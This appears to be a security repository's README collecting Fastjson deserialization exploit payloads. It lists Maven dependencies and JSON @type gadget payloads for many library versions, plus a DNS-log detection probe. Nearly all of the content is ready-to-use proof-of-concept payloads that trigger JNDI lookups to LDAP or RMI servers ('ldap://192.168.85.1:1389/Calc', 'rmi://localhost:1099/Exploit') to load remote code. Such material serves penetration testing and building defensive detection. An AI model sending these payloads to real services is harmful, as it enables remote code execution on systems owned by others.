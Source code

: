 ## Ref
- http://dream0x01.com/spear-framework/#/fastjson/fastjson
- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce



## fastjson detection
```json
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
```

## poc for all versions

### <= 1.2.68 org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig
pom.xml:
```xml
        <dependency>
            <groupId>org.apache.hadoop</groupId>
            <artifactId>hadoop-client-minicluster</artifactId>
            <version>3.2.1</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:43658/Calc"}
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:43658/Calc"}
```

### <= 1.2.66 org.apache.shiro.realm.jndi.JndiRealmFactory
pom.xml:
```xml
        <!-- https://mvnrepository.com/artifact/org.apache.shiro/shiro-core -->
        <dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-core</artifactId>
            <version>1.2.4</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://shiro.5a8a62c8cc78196e6377.d.zhack.ca:43658/Calc"], "Realms":[""]}
```


### <= 1.2.62 org.apache.xbean.propertyeditor.JndiConverter
pom.xml:
```xml
        <!-- https://mvnrepository.com/artifact/org.apache.xbean/xbean-reflect -->
        <dependency>
            <groupId>org.apache.xbean</groupId>
            <artifactId>xbean-reflect</artifactId>
            <version>4.16</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","asText":"ldap://localhost:1389/Calc"}
```


### <= 1.2.62 com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig
pom.xml:
```xml
<dependency>
    <groupId>org.apache.ibatis</groupId>
    <artifactId>ibatis-sqlmap</artifactId>
    <version>2.3.4.726</version>
</dependency>
```

poc:
```json
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.85.1:1389/calc"}}
```

### <= 1.2.62 org.apache.cocoon.components.slide.impl.JMSContentInterceptor
pom.xml:
```xml
        <dependency>
            <groupId>slide</groupId>
            <artifactId>slide-kernel</artifactId>
            <version>2.1</version>
        </dependency>
        <dependency>
            <groupId>cocoon</groupId>
            <artifactId>cocoon-slide</artifactId>
            <version>2.1.11</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor", "parameters": {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"ldap://192.168.85.1:1389/calc"}, "namespace":""}
```
in which `"java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory",` is essential.


### <=1.2.62 br.com.anteros.dbcp.AnterosDBCPConfig
pom.xml
```
        <dependency>
            <groupId>com.codahale.metrics</groupId>
            <artifactId>metrics-healthchecks</artifactId>
            <version>3.0.2</version>
        </dependency>
        <dependency>
            <groupId>br.com.anteros</groupId>
            <artifactId>Anteros-Core</artifactId>
            <version>1.2.1</version>
        </dependency>
        <dependency>
            <groupId>br.com.anteros</groupId>
            <artifactId>Anteros-DBCP</artifactId>
            <version>1.0.1</version>
        </dependency>
```

poc:
```json
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://192.168.85.1:1389/Calc"}
```


### <=1.2.59 org.apache.commons.proxy.provider.remoting.SessionBeanProvider
pom.xml:
```xml
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-proxy</artifactId>
            <version>1.0</version>
        </dependency>
```
poc:
```json
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://192.168.85.1:1389/Calc","Object":"a"}
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://192.168.85.1:1389/Calc"}
```

### <=1.2.59 com.zaxxer.hikari.HikariConfig
pom.xml:
```xml
        <!-- https://mvnrepository.com/artifact/hikari-cp/hikari-cp -->
        <dependency>
          <groupId>com.zaxxer</groupId>
          <artifactId>HikariCP</artifactId>
          <version>3.4.1</version>
        </dependency>
```

poc:
```json
{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://192.168.85.1:1389/Calc"}
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://192.168.85.1:1389/Calc"}
```



### MISC
#### 1.2.24
```json
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}
```

#### 未知版本(1.2.24-41之间)
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

#### 1.2.41
```json
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

#### 1.2.42
```json
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true};
```

#### 1.2.43
```json
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true]}
```

#### 1.2.45
```json
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}
```

#### 1.2.47
```json
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
```
